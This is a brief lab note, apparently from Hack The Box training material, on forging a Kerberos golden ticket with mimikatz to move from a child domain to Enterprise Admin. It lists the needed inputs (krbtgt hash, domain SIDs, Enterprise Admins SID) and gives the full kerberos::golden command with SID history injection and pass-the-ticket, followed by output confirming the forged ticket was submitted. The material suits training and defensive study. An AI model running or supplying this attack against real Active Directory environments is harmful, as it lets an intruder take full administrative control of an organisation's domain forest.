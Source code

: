 ## You need
- Hash of krbtgt service.  --> mimikatz
- SID and FQDN of sub Domain
- SID Enterprise Admin group
- Fake target user.

## Attack
```powershell
PS C:\htb> mimikatz.exe

mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
User      : hacker
Domain    : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
SID       : S-1-5-21-2806153819-209893948-922872689
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3842939050-3880317879-2865463114-519 ;
ServiceKey: 9d765b482771505cbe97411065964d5f - rc4_hmac_nt
Lifetime  : 3/28/2022 7:59:50 PM ; 3/25/2032 7:59:50 PM ; 3/25/2032 7:59:50 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'hacker @ LOGISTICS.INLANEFREIGHT.LOCAL' successfully submitted for current session
```